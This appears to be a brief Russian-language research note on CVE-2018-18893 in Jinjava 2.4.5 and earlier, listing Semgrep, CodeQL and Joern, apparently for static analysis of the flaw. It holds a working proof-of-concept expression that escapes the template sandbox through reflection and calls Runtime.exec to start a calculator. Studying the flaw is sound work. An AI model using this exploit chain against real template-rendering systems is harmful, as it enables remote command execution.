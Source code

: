 CVE-2018-18893 (Маджуга Богдан Андреевич)
Описание:

Выполняем данный код используя Jinjava версия <= 2.4.5

```
Jinjava jinjava = new Jinjava();
JinjavaInterpreter interpreter = jinjava.newInterpreter(); 
Context context = interpreter.getContext(); context.put("obj",""); 
String poc ="''.getClass().forName(\"java.lang.Runtime\").getMethod(\"exec\",''.getClass()).invoke(''.getClass().forName(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null),'/usr/bin/gnome-calculator')"; 
Object a = interpreter.resolveELExpression(poc, -1);
```
Semgrep
CodeQL
Joern
importCode(inputPath="./jinjava", projectName="jinjava")
